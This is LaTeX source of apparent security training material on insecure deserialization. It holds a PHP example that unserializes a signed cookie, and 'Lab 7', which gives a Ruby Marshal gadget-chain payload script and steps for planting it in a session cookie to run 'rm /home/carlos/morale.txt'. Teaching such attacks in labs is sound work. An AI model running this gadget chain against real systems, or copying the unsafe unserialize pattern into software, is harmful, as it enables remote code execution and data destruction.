 \documentclass[11pt]{article}
\begin{document}
\begin{causebox}
\begin{lstlisting}[style=code]
$data = json_decode($_COOKIE['session'], true);
if (hash_hmac('sha1', $data['token'], SECRET_KEY) === $data['sig_hmac_sha1']) {
    $user = unserialize(base64_decode($data['token']));  # signature only proves origin,
}                                                          # not that the CLASS is safe
\end{lstlisting}
Signing prevents tampering by outsiders who do \textit{not} know the secret, but once the secret leaks (here via a forgotten \texttt{phpinfo.php}), signing provides zero protection against a full gadget-chain payload -- integrity and safety are two different guarantees.
\end{causebox}

\subsection{Lab 7: Exploiting Ruby Deserialization Using a Documented Gadget Chain}
\begin{labbox}{Goal}
The session mechanism uses \texttt{Marshal} and the app runs Ruby on Rails. Adapt a publicly documented universal RCE gadget chain (Gem::Requirement / Net::BufferedIO) to delete \texttt{morale.txt}.
\end{labbox}
\begin{enumerate}
    \item Log in and Base64-decode the session cookie; the bytes begin with \verb|\x04\x08|, the signature of Ruby's \texttt{Marshal} format.
    \item Locate a documented universal Ruby deserialization RCE gadget chain (e.g.\ the public write-up ``Universal Deserialisation Gadget for Ruby 2.x/3.x'').
    \item Adapt the published script, replacing its example command with the target command:
\begin{lstlisting}[style=code]
i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")
n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)   # wa2 wraps 'rm /home/carlos/morale.txt'
t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)
r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)
payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
\end{lstlisting}
    \item Run the script, Base64- and URL-encode the output, and replace the session cookie value with it.
    \item Send the request -- \texttt{Marshal.load} reconstructs the crafted object graph, which ultimately shells out and deletes the file.
\end{enumerate}
\end{document}

